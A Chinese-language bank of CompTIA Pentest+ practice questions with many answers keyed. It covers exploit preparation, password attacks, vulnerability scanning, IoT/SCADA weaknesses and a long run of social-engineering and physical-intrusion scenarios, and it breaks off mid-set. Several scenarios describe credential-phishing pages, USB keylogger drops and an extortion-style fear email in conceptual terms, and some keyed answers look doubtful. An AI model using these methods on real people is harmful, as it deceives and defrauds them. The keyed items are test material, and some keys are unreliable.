你刚刚完成了对目标网络的扫描，现在正在确定活动优先级，准备利用发现的漏洞。你发现该组织仍在使用几台未正确更新的旧版 Windows Server 2003 系统，这些系统易受特定漏洞利用。你决定编写一个小程序来利用该漏洞。然而，你几乎只使用 Kali Linux。为了编写 Windows 程序，你应该怎么做？（选择两项。）

1.  在你的 Linux 系统上用 C 语言编写代码。
2.  利用漏洞利用链。
3.  在 Windows 笔记本电脑上用 C++ 编写代码。
4.  交叉编译代码。
5.  实施凭证暴力破解。

# 渗透测试场景题

## 133. 漏洞利用准备阶段的过程识别

你刚完成目标网络扫描，现在正在确定活动优先级，准备利用发现的漏洞。你发现该组织仍在使用多台不受支持的旧版 Windows 2000 Server 系统。经过调研，你确定了与这些系统相关的多个可利用漏洞。你修改了某个漏洞利用代码的源代码，使其能在这些旧系统上运行，然后进行了编译。此场景中使用的过程叫什么？（选择两项。）

1.  交叉编译代码
2.  漏洞利用修改
3.  漏洞利用链
4.  将漏洞映射到潜在漏洞利用
5.  概念验证开发

## 134. 漏洞利用链

你刚完成目标网络扫描，现在正在确定活动优先级，准备利用发现的漏洞。目标系统无法通过单一漏洞利用攻破。但是，你确定可以结合使用多个漏洞利用来攻破系统。第一个突破系统的主机防火墙。第二个利用弱密码的用户账户。第三个提升系统权限。你的解决方案叫什么？

1.  欺骗
2.  漏洞利用修改
3.  漏洞利用链
4.  凭证暴力破解
5.  概念验证开发

## 135. 漏洞利用修改后的后续步骤

你刚完成目标网络扫描，现在正在确定活动优先级，准备利用发现的漏洞。你发现该组织仍在使用多台不受支持的旧版 Windows 2000 Server 系统。经过调研，你确定了与这些系统相关的多个可利用漏洞。你修改了某个漏洞利用代码的源代码，使其能在这些旧系统上运行，然后进行了编译。接下来你应该做什么？

1.  攻击目标系统。
2.  在实验室环境的虚拟机上测试修改后的漏洞利用代码。
3.  实施凭证暴力破解。
4.  交叉编译代码。

## 136. 黑盒渗透测试中的技术识别

你正在执行黑盒渗透测试。在获得内网访问权限并运行漏洞扫描后，你识别出一台目标系统，并将其漏洞映射到特定漏洞利用代码。然而，执行该漏洞利用代码需要物理访问内部网络端口。因此，你尾随进入设施，插上笔记本电脑，并运行漏洞利用代码。此场景中使用了什么技术？（选择两项。）

1.  欺骗
2.  漏洞利用修改
3.  社会工程学
4.  凭证暴力破解
5.  概念验证开发

## 137. 凭证暴力破解

以下哪种技术涉及向认证系统发送一个接一个的密码，试图找到正确的那个？

1.  彩虹表
2.  泪滴攻击
3.  凭证暴力破解
4.  SYN 攻击

## 138. 字典攻击

以下哪种技术涉及从常用密码列表中逐个发送密码，试图找到正确的那个？

1.  彩虹表
2.  SYN 攻击
3.  中间人攻击
4.  字典攻击

## 139. 彩虹表

以下哪项是常用密码哈希值的预计算列表，可用于离线破解密码文件？

1.  彩虹表
2.  指纹
3.  数字签名
4.  私钥

## 140. 工业控制系统设备

以下哪些是常用于控制制造设备和环境系统的特殊网络设备？（选择两项。）

1.  ICS
2.  SCADA
3.  销售终端
4.  RTOS
5.  IoT

## 141. 移动设备安全弱点

以下哪些是与移动设备相关的安全弱点？（选择两项。）

1.  弱加密
2.  Root 或越狱
3.  不支持 SSL/TLS
4.  易受跨站脚本攻击
5.  更新不一致

## 142. 固有安全性最弱的设备

以下哪些设备可能具有最弱的固有安全性？（选择两项。）

1.  Windows 服务器
2.  Linux 服务器
3.  Windows 工作站
4.  嵌入式设备
5.  智能 IoT 设备

## 143. POS 系统安全建议

你正在为一家小型零售连锁店执行黑盒渗透测试。枚举其零售网点时，你发现其销售终端（POS）系统直接连接到互联网。指纹识别显示它们运行 Windows XP SP3。你亲自访问一家网点，注意到 POS 系统通过有线连接接入网络，并用缆锁固定在柜台上。你在给客户的最终报告中应该建议什么？（选择两项。）

1.  用智能手机替换 POS 设备。
2.  使用无线连接将 POS 设备连接到网络。
3.  将 POS 设备隔离在没有互联网连接的独立子网上。
4.  将 POS 设备升级到更新版本。
5.  升级物理安全。

## 144. USB 指纹生物识别扫描仪的安全弱点

你正在执行灰盒渗透测试。在现场时，你注意到所有员工都使用 USB 指纹生物识别扫描仪向其系统进行身份验证。这种认证系统相关的安全弱点是什么？

1.  它们可能被伪造指纹欺骗。
2.  只需拔掉它们即可绕过。
3.  当死皮、油脂和其他碎屑遮挡读取器表面时，它们会产生误报。
4.  暴露在阳光下时可能产生误报。

## 145. 消费级 IoT 设备安全性较低的原因

消费级物联网（IoT）设备通常比为传统台式计算机设计的系统安全性更低。为什么这个说法是正确的？


1. 设计 IoT 设备的开发人员不那么关注安全。

2. 管理员难以大规模应用相同的安全标准。

3. **IoT 系统通常缺乏某些稳健解决方案所需的硬件算力。**

4. 监管机构通常对 IoT 系统有较低的约束。

## 146. 外部漏洞扫描结果的攻击策略优先级

在一次外部漏洞扫描中，渗透测试人员发现以下结果：

| **漏洞** | **端口** |
| --- | --- |
| 发现多个不受支持的 Apache 版本 | 80, 443 |
| HTTPS 连接接受 SSLv3 | 443 |
| Apache 服务器启用 Mod_rewrite | 80, 443 |
| 发现 Windows Server 主机 | 21 |

鉴于这些结果，应如何确定攻击策略的优先级？

1. **过时软件可能包含易受攻击的组件。**
2. 正在使用弱密码管理实践。
3. **弱协议可能被拦截。**
4. 敏感信息可能在 Web 服务器上泄露。

## 147. 验证服务器场软件基线合规性的扫描类型

渗透测试人员受要求通过远程扫描确定客户的服务器场是否符合公司的软件基线。测试人员应执行哪种类型的扫描来验证合规性？

1. **凭证扫描**
2. 发现扫描
3. 完整扫描
4. 隐身扫描

## 148. 凭证扫描所需的账户类型

你是一名渗透测试人员，正在配置漏洞管理解决方案，以对客户网络上的服务器执行凭证扫描。应该为你提供哪种类型的账户？

1. 域管理员账户
2. 本地管理员账户
3. 512 位加密证书
4. **只读账户**

## 149. Web 应用代码审查的分析类型

客户要求渗透测试人员对 Web 应用程序执行代码审查。渗透测试人员正在执行哪种类型的分析？

1. 动态代码分析
2. 模糊测试
3. 故障注入
4. **静态代码分析**

## 150. 域控制器用户账户活动检查

一名渗透测试人员拥有对域控制器的完全访问权限，并希望发现过去 30 天内未活跃的用户账户。渗透测试人员应使用什么命令？

1. `dsrm -users "DN=client.com; OU=hq CN=users"`
2. `dsquery user -inactive 4`
3. `dsquery -o -rdn -limit 30`
4. `dsuser -name -account -limit 3`

## 151. 测试协议对生产系统高峰期测试的影响

你是一名渗透测试人员，正在与客户讨论测试约定的属性。以下哪一项将对在客户生产系统高峰负载期间的观察和测试产生最大影响？

1. 创建客户使用的关键生产系统的范围
2. 与客户建立白盒测试约定
3. 让客户管理团队对任何侵入性测试签字确认
4. 设置访问其系统的测试时间计划

## 152. 生物识别传感器未授权访问分析

经过多次尝试后，测试人员通过使用自己的指纹（未利用漏洞）获得了通过生物识别传感器的未授权访问。生物识别设备发生了什么情况，允许测试人员获得访问权限？

1. 设备配置更倾向于真阴性。
2. 设备设置为故障关闭。
3. 设备复制了有效用户的指纹。
4. 设备调整更倾向于假阳性。

## 153. 合规扫描结果与网络架构图差异原因

一名渗透测试人员已完成对客户网络的简单合规扫描。结果表明网络上存在一部分资产。此信息与测试前提供给测试人员的网络架构图所示内容不同。导致差异最可能的原因是什么？（选择两项。）

1. DHCP 服务器配置错误
2. 凭据不正确
3. 网络访问受限
4. 网络准入控制（NAC）
5. 存储访问

## 154. 针对 SCADA 设备的破坏性行动

一名渗透测试人员在范围内的某个 VLAN 中发现了一个监控与数据采集（SCADA）设备。什么行动最能针对该设备产生潜在的破坏性后果？

1. 开始 DNS 缓存投毒攻击
2. 开始 Nessus 漏洞扫描
3. 开始 SMB 漏洞利用
4. 开始 SNMP 密码暴力破解攻击

## 155. 社交媒体信息收集用于密码攻击

一名渗透测试人员正在使用社交媒体收集公司不同员工的信息。测试人员创建了一个员工档案中频繁使用的热门词汇列表。该信息可用于哪种类型的攻击？

1. 字典攻击
2. 漏洞利用链攻击
3. Karma 攻击
4. 会话劫持攻击

## 156. 控制常见字典词用作密码

你是一名渗透测试人员，在最近的测试后发现客户员工正在使用字典词和季节性密码。控制常见字典词被用作密码的最佳方法是什么？

1. 配置密码过滤器。
2. 三次尝试失败后禁用账户。
3. 将密码长度从 7 位扩展到 14 位并添加特殊字符。
4. 实施密码历史记录限制。

## 157. 黑盒渗透测试中的漏洞扫描类型

你是一名渗透测试人员，正在对客户网络进行黑盒渗透测试，并正在收集漏洞扫描结果。哪种类型的扫描将在你的测试范围内为你提供重要信息？

1. 合规扫描
2. 发现扫描
3. 完整扫描
4. 隐蔽扫描

## 158. Web 应用漏洞扫描类型识别

一名安全分析师试图在不影响系统或其数据的情况下识别客户 Web 应用程序中的漏洞。以下哪项最能描述正在执行的漏洞扫描类型？

1. 激进扫描
2. 合规扫描
3. 非凭证扫描
4. 被动扫描

## 159. 使用服务访问级别的漏洞扫描

你是一名渗透测试人员，一直在扫描网络。你正在使用的漏洞扫描器正在使用服务访问级别，以更好地评估组织内多个资产的漏洞。正在执行什么操作？

1. 凭证扫描
2. 非侵入式扫描
3. 被动扫描
4. 提权测试

## 160. 源代码审查工具误报术语

一个组织正在使用工具执行源代码审查。渗透测试工具错误地识别了一个漏洞。这种情况称为什么？

1. 假阴性
2. 假阳性
3. 真阴性
4. 真阳性

## 161. 交叉编译代码的目的

你是一名渗透测试人员，希望为渗透活动交叉编译代码，然后计划部署它。为什么要交叉编译代码？

1. 为了添加额外的库
2. 为了允许你检查源代码
3. 为了在多个平台上运行
4. 为了在不同架构上运行

## 162. 彩虹表攻击与暴力破解攻击的区别特征

以下哪些特征将彩虹表攻击与暴力破解攻击区分开来？（选择两项。）

1. 彩虹表攻击减少了攻击时的计算周期。
2. 彩虹表必须包含预编译的哈希值。
3. 彩虹表攻击不需要访问哈希密码。
4. 彩虹表攻击必须在网络上执行。
5. 彩虹表攻击绕过最大登录失败限制。

## 163. 彩虹表破解密码机制

一名渗透测试人员想要对已捕获的密码文件使用彩虹表。彩虹表如何破解密码？

1. 通过比较哈希值以识别已知值
2. 通过解密密码
3. 通过反哈希密码
4. 通过暴力测试哈希值

## 164. 渗透测试中被动信息收集

一名渗透测试人员正处于渗透测试中间阶段，在不主动扫描客户的情况下收集信息。正在收集哪种类型的信息？

1. 背景调查
2. 商业记录搜索
3. 情报收集
4. 开源情报（OSINT）

## 165. 非 OSINT 信息收集工具

以下哪项不是开源情报（OSINT）收集工具？

1. FOCA
2. Nessus
3. nslookup
4. whois

## 166. 处理安全漏洞和 DoS 事件的组织

你和同事正在讨论开源情报（OSINT），话题转向讨论漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织处理广泛的网络安全活动。它专注于安全漏洞和拒绝服务事件，提供警报、事件处理和避免指南。我们在讨论哪个组织？

1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应小组（CERT）
3. 通用弱点枚举（CWE）
4. 美国国家标准与技术研究院（NIST）

## 167. 攻击模式枚举与分类组织

你和同事正在讨论开源情报（OSINT），话题转向讨论漏洞和其他安全缺陷。有许多组织致力于集中这些知识。其中一个组织使用列表作为资源，旨在帮助识别和记录攻击及攻击模式。它允许用户按机制或领域搜索攻击，然后使用各种属性和前提条件分解每个攻击。我们在讨论哪个组织？

1. 通用攻击模式枚举与分类（CAPEC）
2. 计算机应急响应小组（CERT）
3. 通用弱点枚举（CWE）
4. 美国国家标准与技术研究院（NIST）

# 168. 场景题

你是一名渗透测试人员，客户要求你扫描他们的系统，并将不惜一切代价避免被发现。客户不希望其网络安全团队知晓正在进行渗透测试。你将执行哪种类型的扫描？

1. 合规性扫描
2. 发现扫描
3. 全面扫描
4. **隐蔽扫描**

# 第 3 章：攻击与漏洞利用

## Pentest+ 考试涵盖的主题

## 领域 3：攻击与漏洞利用

* **3.1 比较和对比社会工程学攻击。**
    * 钓鱼攻击
        * 定向钓鱼
        * 短信钓鱼
        * 语音钓鱼
        * 鲸钓
    * 诱导
        * 商业电子邮件欺诈
    * 审讯
    * 冒充
    * 偷窥
    * USB 诱饵攻击
    * 动机技巧
        * 权威
        * 稀缺性
        * 社会认同
        * 紧迫感
        * 好感度
        * 恐惧

* **3.2 针对给定场景，利用基于网络的漏洞。**
    * 名称解析漏洞利用
        * NETBIOS 名称服务
        * LLMNR
    * SMB 漏洞利用
    * SNMP 漏洞利用
    * SMTP 漏洞利用
    * FTP 漏洞利用
    * DNS 缓存投毒
    * 传递哈希
    * 中间人攻击
        * ARP 欺骗
        * 重放攻击
        * 中继攻击
        * SSL 剥离
        * 降级攻击
    * DoS/压力测试
    * NAC 绕过
    * VLAN 跳跃

* **3.3 针对给定场景，利用无线和射频漏洞。**
    * 邪恶双生
        * Karma 攻击
        * 降级攻击
    * 解除认证攻击
    * 碎片攻击
    * 凭证收集
    * WPS 实现弱点
    * 蓝牙垃圾信息攻击
    * 蓝牙数据窃取
    * RFID 克隆
    * 干扰攻击
    * 重放攻击

* **3.4 针对给定场景，利用基于应用程序的漏洞。**
    * 注入攻击
        * SQL
        * HTML
        * 命令
        * 代码
    * 认证漏洞
        * 凭证暴力破解
        * 会话劫持
        * 重定向
        * 默认凭证
        * 弱凭证
        * Kerberos 漏洞利用
    * 授权漏洞
        * 参数污染
        * 不安全的直接对象引用
    * 跨站脚本攻击 (XSS)
        * 存储型/持久型
        * 反射型
        * DOM 型
    * 跨站请求伪造 (CSRF/XSRF)
    * 点击劫持
    * 安全配置错误
        * 目录遍历
        * Cookie 操纵
    * 文件包含漏洞
        * 本地文件包含
        * 远程文件包含
    * 不安全的代码实践
        * 源代码中的注释
        * 缺乏错误处理
        * 过于详细的错误处理
        * 硬编码凭证
        * 竞争条件
        * 未经授权的函数使用/未受保护的 API
        * 隐藏元素
        * DOM 中的敏感信息
        * 缺乏代码签名

* **3.5 针对给定场景，利用本地主机漏洞。**
    * 操作系统漏洞
        * Windows
        * Mac OS
        * Linux
        * Android
        * iOS
    * 不安全的服务和协议配置
    * 权限提升
        * Linux 特有
            * SUID/SGID 程序
            * 不安全的 SUDO
            * Ret2libc
            * 粘滞位
        * Windows 特有
            * Cpassword
            * LDAP 中的明文凭证
            * Kerberoasting
            * LSASS 中的凭证
            * 无人值守安装
            * SAM 数据库
            * DLL 劫持
        * 可利用的服务
            * 未加引号的服务路径
            * 可写服务
        * 不安全的文件/文件夹权限
        * 键盘记录器
        * 计划任务
        * 内核漏洞利用
    * 默认账户设置
    * 沙箱逃逸
        * Shell 升级
        * 虚拟机
        * 容器
    * 物理设备安全
        * 冷启动攻击
        * JTAG 调试
        * 串口控制台

* **3.6 总结与设施相关的物理安全攻击。**
    * 搭便车/尾随
    * 翻越围栏
    * 垃圾箱搜寻
    * 开锁
    * 绕过门锁
    * 出口传感器
    * 徽章克隆

* **3.7 针对给定场景，执行后渗透技术。**
    * 横向移动
        * RPC/DCOM
            * PsExec
            * WMI
            * 计划任务
        * PS Remoting/WinRM
        * SMB
        * RDP
        * Apple Remote Desktop
        * VNC
        * X-server 转发
        * Telnet
        * SSH
        * RSH/Rlogin
    * 持久化
        * 计划作业
        * 计划任务
        * 守护进程
        * 后门
        * 特洛伊木马
        * 新用户创建
    * 清除痕迹

---

### 练习题

### 1. 场景题

你正在为客户进行黑盒渗透测试。你已使用侦察工具创建了目标组织内员工电子邮件地址的列表。你编写了一封发给所有员工的邮件，警告他们必须在 24 小时内更改密码，否则将失去访问权限。当他们点击邮件中提供的链接时，会被重定向到你自己的网站，其凭证被捕获到文本文件中。你使用了哪种漏洞利用方式？

1. **钓鱼攻击**
2. 语音钓鱼
3. 短信钓鱼
4. 鲸钓

### 2. 场景题

你正在为一家中型组织执行灰盒渗透测试。你已使用侦察技术识别出一名服务台员工和一名薪资员工。你向薪资员工发送了一封伪装成来自服务台员工的邮件，指示薪资员工重置密码。当她点击邮件中提供的链接时，会被重定向到你自己的网站，其凭证被捕获到文本文件中。你使用了哪种漏洞利用方式？

1. 钓鱼攻击
2. 审讯
3. **定向钓鱼**
4. 鲸钓

### 3. 场景题

你正在为一家中型组织执行黑盒渗透测试。你已使用侦察技术识别出 CEO 的电子邮件地址以及一名服务台员工的电子邮件地址。你向 CEO 发送了一封伪装成来自服务台员工的邮件，指示 CEO 重置密码。当她点击邮件中提供的链接时，会被重定向到你自己的网站，其凭证被捕获到文本文件中。你使用了哪种漏洞利用方式？

1. 短信钓鱼
2. 语音钓鱼
3. 定向钓鱼
4. **鲸钓**

### 4. 场景题

你正在为一家销售进口服装的中型组织执行黑盒渗透测试。你已使用侦察技术识别出一名关键软件开发人员。你向该员工发送了一条包含 Bitly 短链接的个性化短信，该链接指向你自己的网站，用于将信息捕获到文本文件中。在此场景中，你使用了哪种漏洞利用方式？

1. 钓鱼攻击
2. **短信钓鱼**
3. 语音钓鱼
4. 鲸钓

## 5. 场景分析：冒充供应商销售代表

你正在为一家在美国批发进口电子设备的小型组织执行黑盒渗透测试。你已使用侦察技术识别出一名接待员的电话号码以及该组织的打印机供应商。你给这名接待员打电话，冒充供应商的销售代表。你询问接待员关于他们的打印机、工作站、操作系统等信息，以了解更多关于该组织网络基础设施的情况。此场景中你使用了哪种攻击手段？

1. Smishing（短信钓鱼）
2. **Vishing（语音钓鱼）**
3. Spear phishing（鱼叉式钓鱼）
4. Whaling（鲸钓攻击）

## 6. 恐吓式询问技术

哪种社会工程学技术涉及使用恐吓手段盘问员工以收集信息？

1. Phishing（钓鱼）
2. Smishing（短信钓鱼）
3. Impersonation（冒充）


# 渗透测试社会工程学与物理安全场景题

## 4. Interrogation（审讯/盘问）

## 7. 场景分析：冒充自动售货机供应商员工

你正在为一家大型金融组织执行黑盒渗透测试。使用侦察技术，你已识别出在该组织总部提供自动售货机服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一辆手推车和几箱汽水。目标组织的接待员允许你进入并指引你去休息室。此场景中你使用了哪种攻击手段？

1.  **Impersonation（冒充）**
2.  Smishing（短信钓鱼）
3.  Vishing（语音钓鱼）
4.  Elicitation（诱导）

## 8. 场景分析：冒充打印机维修技术人员（选择两项）

你正在为一家中型制造组织执行黑盒渗透测试。使用侦察技术，你已识别出在该组织总部提供打印机服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一个工具包，内含打印机维修技术人员常用的工具。目标组织的接待员允许你进入并指引你去一台故障打印机处。在“维修”该打印机时，你与附近的员工聊天以收集信息。此场景中你使用了哪些攻击手段？（选择两项。）

1.  **Impersonation（冒充）**
2.  Whaling（鲸钓攻击）
3.  Phishing（钓鱼）
4.  Interrogation（盘问）
5.  **Elicitation（诱导）**

## 9. 场景分析：冒充技术人员并实施肩窥（选择两项）

你正在为一家中型制造组织执行黑盒渗透测试。使用侦察技术，你已识别出在该组织总部提供打印机服务的供应商。你穿着与该供应商员工相似的制服。你还购买了一个工具包，内含打印机维修技术人员常用的工具。目标组织的接待员允许你进入并指引你去一台故障打印机处。在组织内部“工作”时，你谨慎地观察员工敲击键盘，试图收集敏感信息。此场景中你使用了哪些攻击手段？（选择两项。）

1.  **Shoulder surfing（肩窥）**
2.  Phishing（钓鱼）
3.  **Impersonation（冒充）**
4.  Interrogation（盘问）
5.  Elicitation（诱导）

## 10. 场景分析：利用被盗凭证进行钓鱼与诱导（选择两项）

你正在为一家中型制造组织执行黑盒渗透测试。使用侦察和钓鱼技术，你已攻破一名员工的电子邮件账户密码。你使用该账户盘问其他员工，试图收集敏感信息和文档。此场景中你使用了哪些攻击手段？（选择两项。）

1.  Shoulder surfing（肩窥）
2.  **Phishing（钓鱼）**
3.  Impersonation（冒充）
4.  Interrogation（盘问）
5.  **Elicitation（诱导）**

## 11. 场景分析：USB 密钥投放攻击

你受雇为一家客户执行黑盒渗透测试。你购买一个小型闪存驱动器，并向其中加载恶意软件，该软件会在受害者计算机上安装键盘记录器并将捕获的信息发送给你。你走进客户的大门，向接待员询问附近体育场馆的路线。交谈时，你故意将驱动器掉在地上然后离开。此场景中使用了哪种攻击手段？

1.  Shoulder surfing（肩窥）
2.  **USB key drop（USB 密钥投放）**
3.  Phishing（钓鱼）
4.  Elicitation（诱导）

## 12. 无差别群发钓鱼邮件

哪种攻击手段会无差别地向目标组织的大量员工发送电子邮件，预期其中一定比例的人会点击邮件中包含的恶意链接？

1.  **Phishing（钓鱼）**
2.  Spear phishing（鱼叉式钓鱼）
3.  SMS phishing（短信钓鱼）
4.  Whaling（鲸钓攻击）

## 13. 依赖短信的钓鱼攻击

哪种攻击手段依赖短信来传递钓鱼消息？

1.  Elicitation（诱导）
2.  Spear phishing（鱼叉式钓鱼）
3.  **SMS phishing（短信钓鱼/Smishing）**
4.  Whaling（鲸钓攻击）

## 14. 依赖电话的钓鱼攻击

哪种攻击手段依赖电话来诱使某人透露敏感信息？

1.  **Vishing（语音钓鱼）**
2.  Spear phishing（鱼叉式钓鱼）
3.  Phishing（钓鱼）
4.  Whaling（鲸钓攻击）

## 15. 需要大量侦察的定向攻击（选择两项）

哪些攻击手段要求渗透测试人员首先进行大量侦察，以识别组织内部要攻击的特定高价值个人？（选择两项。）

1.  **Spear phishing（鱼叉式钓鱼）**
2.  Phishing（钓鱼）
3.  USB key drop（USB 密钥投放）
4.  **Whaling（鲸钓攻击）**
5.  SMS phishing（短信钓鱼）

## 16. 渗透测试中最不可能使用的技术

哪种社会工程学技术最不可能在渗透测试中使用？

1.  **Interrogation（审讯/盘问）**
2.  Impersonation（冒充）
3.  Shoulder surfing（肩窥）
4.  USB key drop（USB 密钥投放）

## 17. 场景分析：冒充暖通空调技术人员并投放 USB（选择两项）

你受雇为一家客户执行黑盒渗透测试。你购买一个小型闪存驱动器，并向其中加载会将信息发送给你的恶意软件。使用侦察技术，你已识别出在该组织总部提供供暖和空调服务的供应商。你穿着与该供应商员工相似的制服并购买他们常用的工具。目标组织的接待员允许你进入并指引你去机房。当你路过一个开放的工位时，你故意将闪存驱动器留在用户的椅子上。此场景中使用了哪些攻击手段？（选择两项。）

1.  Elicitation（诱导）
2.  **Impersonation（冒充）**
3.  Shoulder surfing（肩窥）
4.  **USB key drop（USB 密钥投放）**
5.  Business email compromise（商务电子邮件入侵）

## 18. 场景分析：肩窥获取登录凭证

你受雇为一家客户执行黑盒渗透测试。你走进组织的主入口，向接待员询问当前的职位空缺信息。你观察她在计算机上敲击的按键，希望捕获可用于访问内部网络的敏感信息。此场景中使用了哪种攻击手段？

1.  Spear phishing（鱼叉式钓鱼）
2.  Impersonation（冒充）
3.  **Shoulder surfing（肩窥）**
4.  USB key drop（USB 密钥投放）
5.  Business email compromise（商务电子邮件入侵）

## 19. 场景分析：肩窥与商务电子邮件入侵（选择两项）

你受雇为一家客户执行灰盒渗透测试。你恰好路过，就在她登录电子邮件账户时，观察她在计算机上敲击的按键。当天晚些时候，在该员工下班回家后，你登录她的电子邮件账户并向其他员工发送信息请求。此场景中使用了哪些攻击手段？（选择两项。）

1.  Spear phishing（鱼叉式钓鱼）
2.  Whaling（鲸钓攻击）
3.  USB key drop（USB 密钥投放）
4.  **Shoulder surfing（肩窥）**
5.  **Business email compromise（商务电子邮件入侵）**

## 20. 场景分析：通过建立信任进行诱导

你正在作为黑盒渗透测试的一部分执行侦察。你注意到目标组织的员工通常在一家特定的户外餐厅聚餐。你开始频繁光顾同一家餐厅吃午餐，并与几名目标组织的员工交上朋友。在获得他们的信任后，他们开始分享关于他们的工作、电脑、老板、客户、项目等信息。此场景中发生了哪种类型的攻击？

1.  Whaling（鲸钓攻击）
2.  **Elicitation（诱导）**
3.  Interrogation（盘问）
4.  Phishing（钓鱼）

## 21. 动机因素：权威

一名渗透测试人员向目标组织的一名员工发送鱼叉式钓鱼邮件，声称自己是运营总监。邮件要求该员工回复敏感内部信息。渗透测试人员在此场景中使用了哪种动机因素？

1.  **Authority（权威）**
2.  Scarcity（稀缺性）
3.  Social proof（社会认同）
4.  Likeness（喜好/相似性）

## 22. 权威性

一名渗透测试人员向目标组织的一名员工发送了一封鱼叉式网络钓鱼邮件，声称是联邦调查局（FBI）的特工。邮件称该员工的经理因贪污正在接受调查，并要求员工回复敏感的内部信息。渗透测试人员在此场景中使用了什么激励因素？

1.  喜好度
2.  稀缺性
3.  社会认同
4.  **权威性**

## 23. 紧迫性

一名渗透测试人员向目标组织的一名员工发送了一封鱼叉式网络钓鱼邮件，声称是一位忘记密码的同事。邮件称她几分钟后就要演示，但无法访问共享网络驱动器上的演示文件。她请求员工“借”给她用户名和密码，以便她登录获取文件。渗透测试人员在此场景中使用了什么激励因素？

1.  恐惧
2.  **紧迫性**
3.  权威性
4.  稀缺性

## 24. 社会认同

一名渗透测试人员向目标组织的员工发送了一封网络钓鱼邮件。邮件中的链接指向一个伪造网站，该网站列出了 1000 多条评论，平均评分为 4.9 星。渗透测试人员在此场景中使用了什么激励因素？

1.  **社会认同**
2.  紧迫性
3.  稀缺性
4.  权威性

## 25. 稀缺性

一名渗透测试人员向目标组织的员工发送了一封网络钓鱼邮件。邮件声称以荒谬的低价提供 iPad，但该价格仅剩 25 台。邮件中的链接指向一个使用“路过式下载”脚本的伪造网站，该脚本会在员工计算机上植入键盘记录器。渗透测试人员在此场景中使用了什么激励因素？

1.  恐惧
2.  社会认同
3.  权威性
4.  **稀缺性**

## 26. 喜好度

您正在执行黑盒渗透测试的侦察阶段。您注意到目标组织的员工通常在一家特定的户外餐厅聚餐。您聘请了几位年轻、外貌出众的顾问协助渗透测试。您派他们去同一家餐厅吃午饭，并让他们与目标组织的几名员工交朋友。他们赢得了员工的信任，员工开始分享关于他们的工作、计算机、老板、客户、项目等信息。此场景中使用了哪种激励因素？

1.  权威性
2.  稀缺性
3.  社会认同
4.  **喜好度**

## 27. 恐惧

在一次渗透测试期间，您向目标组织的首席财务官（CFO）发送了一封电子邮件。邮件声称 CFO 笔记本电脑上的摄像头被秘密用于录制他观看色情内容的视频。邮件威胁称，如果他不回复有关其公司的某些敏感信息，将发布该视频并通知其家人、雇主和警方。此场景中使用了哪种激励因素？

1.  **恐惧**
2.  社会认同
3.  权威性
4.  稀缺性

## 28. 权威性

一名渗透测试人员向目标组织的一名销售代表发送电子邮件，声称是该组织最重要客户之一的 CEO。邮件要求员工创建一个 VPN 账户，以允许 CEO 访问组织网络上的某些文件。邮件威胁称，如果不照做，将终止业务关系。渗透测试人员在此场景中使用了什么激励因素？

1.  喜好度
2.  社会认同
3.  **权威性**
4.  稀缺性

## 29. 紧迫性

一名渗透测试人员向目标组织的一名员工发送电子邮件，声称是一名在外奔波的销售代表。她在邮件中称，她酒店的 VPN 连接运行极其缓慢，无法访问客户数据。如果她拿不到数据，就会失去这笔销售。邮件要求员工通过电子邮件发送文件副本给她。渗透测试人员在此场景中使用了什么激励因素？

1.  社会认同
2.  **紧迫性**
3.  稀缺性
4.  权威性

## 30. 社会认同、紧迫性

一名渗透测试人员向目标组织的一名员工发送电子邮件，声称是一名在外奔波的销售代表。她在邮件中称忘记了 VPN 密码，且因尝试过多次错误密码而被锁定。她请求员工提供其 VPN 用户名和密码，以便她登录并用一笔巨额新订单更新客户数据库。她在邮件中提到，该目标员工的一位同事过去曾为她这样做过，没什么大不了的。渗透测试人员在此场景中使用了什么激励因素？（选择两项。）

1.  **社会认同**
2.  **紧迫性**
3.  稀缺性
4.  权威性
5.  恐惧

## 31. 稀缺性

哪种激励因素会因供应有限的感觉而促使人们迅速行动？

1.  社会认同
2.  喜好度
3.  **稀缺性**
4.  权威性

## 32. 社会认同

哪种激励因素会因为人们相信“大家都在这么做”而促使他们行动？

1.  **社会认同**
2.  恐惧
3.  稀缺性
4.  权威性

## 33. 权威性

哪种激励因素会因为有影响力的人希望他们这么做而促使人们行动？

1.  喜好度
2.  社会认同
3.  **权威性**
4.  稀缺性

## 34. 紧迫性

哪种激励因素会因为人们相信有人需要帮助而促使他们迅速行动？

1.  社会认同
2.  **紧迫性**
3.  稀缺性
4.  权威性

## 35. 喜好度

哪种激励因素会因为人们想取悦提出请求的人而促使他们行动？

1.  **喜好度**
2.  社会认同
3.  权威性
4.  稀缺性

## 36. 恐惧

哪种激励因素会因为人们担心不采取行动的后果而促使他们行动？

1.  社会认同
2.  **恐惧**
3.  稀缺性
4.  权威性

## 37. 尾随

一名渗透测试人员通过在一名员工身后行走，并在受认证保护的门完全关闭前抓住它，进入了目标组织的物理设施。这种技术叫什么？

1.  搭便车
2.  **尾随**
3.  绕过锁
4.  徽章克隆

## 38. 搭便车

一名渗透测试人员通过在停车场与一名员工攀谈，并跟随她通过一扇使用接近式徽章读取器控制访问的门，进入了目标组织的物理设施。该员工使用徽章打开门并为渗透测试人员扶住门。这种技术叫什么？

1.  **搭便车**
2.  尾随
3.  绕过锁
4.  徽章克隆

## 39. 尾随

一名渗透测试人员在目标组织的停车场等待，直到看到一大群员工从午餐返回。她悄悄地插在队伍的最后面。队伍中的第一个人使用徽章解锁了一扇安全门。渗透测试人员能够随着队伍的其余成员一起通过这扇门。这种技术叫什么？

1.  搭便车
2.  **尾随**
3.  绕过锁
4.  徽章克隆

## 40. 翻越围栏

当一名渗透测试人员接近目标组织物理设施的主入口时，她注意到入口处使用闸机控制访问。她小心翼翼地跨过闸机，而不是穿过它。这种技术叫什么？

1.  搭便车
2.  尾随
3.  绕过锁
4.  **翻越围栏**

## 41. 垃圾箱搜寻

一名渗透测试人员翻阅目标组织的垃圾，发现了一张光盘。他在笔记本电脑上读取光盘，发现其中包含人力资源部门的几个非常敏感的文件。此场景中发生了哪种利用？

1.  **垃圾箱搜寻**
2.  尾随
3.  翻越围栏
4.  出口传感器绕过

## 物理安全与网络侦察场景题

### 42. 物理访问与简单按钮锁

渗透测试人员冒充自动售货机维修人员，获取目标组织设施的物理访问权限。进入内部后，发现服务器机房大门使用简单的按钮门锁，不采用任何电子认证。他可利用哪种物理安全攻击进入机房？

1.  **Lock picking** (撬锁)
2.  **Tailgating** (尾随)
3.  **Fence jumping** (翻越围栏)
